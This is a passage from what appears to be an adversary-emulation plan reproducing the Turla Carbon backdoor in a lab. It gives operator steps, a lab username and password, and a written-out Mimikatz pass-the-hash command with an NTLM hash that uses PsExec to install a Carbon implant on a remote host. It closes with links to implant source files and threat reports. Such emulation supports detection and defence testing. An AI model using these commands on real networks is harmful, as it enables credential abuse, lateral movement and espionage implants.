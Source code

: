 * :arrow_right: Minimize (do not close) the RDP window. Start a new RDP session
to `khabibulin (10.20.20.104)` as `adalwolfa`:

| Username   | Password |
| :--------: | :---------------: |
| skt\adalwolfa  | Password2! |

* Close any spurious windows

* Open up Edge, but don't browse to any website just yet. The browser process
is needed for Carbon comms lib DLL injection to occur.

:arrow_right: Minimize (do not close) the `khabibulin (10.20.20.104)` RDP
window and return to the RDP session to `bannik (10.20.10.9)`.

* From the existing elevated Windows Command Prompt, execute Mimikatz
Pass-the-Hash with PsExec to execute the 3rd Carbon installer on `khabibulin
(10.20.20.104)`:

```bat
C:\Windows\System32\terabox.exe "pr::d" "slsa::htp /user:adalwolfa /domain:skt /ntlm:07d128430a6338f8d537f6b3ae1dc136 /remotepc:khabibulin /pexe:C:\Windows\System32\wsqsp.exe /sys:1 /prun:C:\Windows\System32\wsqmanager.exe" "quit"
```

:heavy_exclamation_mark: Verify that a new Carbon implant has been registered with the control server.

### :moyai: Source Code

* [Mimikatz](../../Resources/Mimikatz)
* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)

### :microscope: Cited Intelligence

* [Report 4: SwissCERT - RUAG Report](https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html)
* [Report 9: Symantec - Waterbug New Toolset](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments)
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments>
* <https://www.welivesecurity.com/2019/05/29/turla-powershell-usage/>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
